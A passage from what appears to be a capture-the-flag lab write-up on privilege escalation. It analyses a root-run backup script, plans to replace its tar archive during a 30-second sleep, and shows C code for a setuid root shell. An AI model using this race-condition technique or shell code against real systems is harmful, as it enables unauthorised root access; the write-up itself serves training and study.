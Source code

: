 ```bash
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

Let me break down the script.
- `/bin/rm -rf $tmpdir/.* $check` : 
  It empties `/var/tmp`, and `/var/tmp/check` directory first.
- `/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &` :
  It archives `/var/www/html` directory to `/var/tmp` with random `SHA` hashed name.
- `/bin/sleep 30` :
  Wait for 30 seconds.
- `/bin/tar -zxvf $tmpfile -C $check` :
  Extract files from `$tmpfile`.
- `integrity_chk() {/usr/bin/diff -r $basedir $check$basedir}` :
  Function to compare original `/var/www/html` and `/var/tmp/.{SHA1 hased}`.
- Then it returns a response based on the integrity check result.

I focused on the 30 seconds right after the archiving.
It allows any `tar` archive file stored as `$tmpfile`.
If I can replace the `$tmpfile` before it's being extracted, then I can get the files extracted by `root` user.
If I can include SUID file in it, I can get it run by the target `root`.

First, let's install packages required to compile it on kali.

```bash
┌──(kali㉿kali)-[~/htb/tar]
└─$ sudo apt-get install gcc-i686-linux-gnu g++-i686-linux-gnu
```

Then I prepared a code to spawn a shell.

```cpp
┌──(kali㉿kali)-[~/htb/tar]
└─$ cat setuid_shell.c 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( int argc, char *argv[] )
{
        setreuid(0,0);
        execve("/bin/sh", NULL, NULL);
}
```
